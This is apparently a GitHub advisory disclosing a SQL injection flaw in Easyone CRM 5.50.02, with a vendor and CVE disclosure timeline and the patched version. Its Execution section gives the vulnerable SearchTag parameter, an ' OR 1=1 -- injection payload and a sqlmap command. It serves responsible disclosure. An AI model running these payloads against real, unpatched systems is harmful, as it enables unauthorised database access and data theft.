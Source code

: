 # EasyoneCRM-5.50.02-SQLinjection
Easyone One is an Italian CRM company with 14 years of experience with a mission: to organize the sales processes of companies, in an increasingly complex and competitive market, through the digitization of processes from the most important and strategic activity: the relationship with the customer.
Easyone is not a CRM vendor, it produce and develop directly CRM for the Italian market.

Easyone developed integration with the most popular management systems on the Italian market: Alyante and Team System Metodo; SageX3, Galileo by San Marco Informatica, Arca by Wolters Kluver, Business by NTS, MecSal by Passpartout and more.

Easyone has more than 1500 active customers on the national territory.

Exploiting this vulnerability allows a remote attacker to obtain control of the database. RCE is not guaranteed, depends on the privileges and capabilities of the user running the dbms. 

Vulnerable version: 5.50.02
Patched version: 5.50.02.03

# Timeline
- 30/08/2022 - Contacted Easyone IT department via e-mail regarding the vulnerability
- 05/09/2022 - Contacted Easyone IT department via telephone regarding availability slot to discuss the vulnerability
- 19/09/2022 - Call with Easyone IT department - vulnerability explained and recognized by Easyone IT department
- 19/09/2022 - CVE request approved by Easyone IT department
- 19/09/2022 - Contacted Easyone IT department via e-mail with summary of the call - patching of the vulnerability planned 
- 28/10/2022 - Contacted Easyone IT department asking about patching 
- 28/10/2022 - Easyone IT department confirms the successful patching and the release of the patched version
- 02/11/2022 - First CVE request sent  
- 21/11/2022 - Reminder e-mail to cve.mitre.org
- 29/11/2022 - Reminder e-mail to cve.mitre.org
- 06/12/2022 - Reminder e-mail to cve.mitre.org
- 14/12/2022 - cve.mitre.org asked about advisory
- 15/12/2022 - CVE request with advisory provided to cve.mitre.org 


## Execution
- Vulnerable GET parameter: domain.com/Services/Misc.asmx/SearchTag?text=SQLI 
- PoC: 
```
domain.com/Services/Misc.asmx/SearchTag?text=z' OR 1=1 --
```
- PoC via sqlmap: 
```
sqlmap -u https://domain.com/Services/Misc.asmx/SearchTag?text=a --dbms=DBMS --batch
```

## Screenshots
![Immagine 2022-12-15 184659](https://user-images.githubusercontent.com/119488062/207931523-f5db2479-9bc2-429a-ab24-96ea6ee33919.png)

## Automated PoC currently in development

# Authors
Luca Bernardi, Davide Bianchin, Fortunato [fox] Lodari @ Deda Cloud Cybersecurity Team
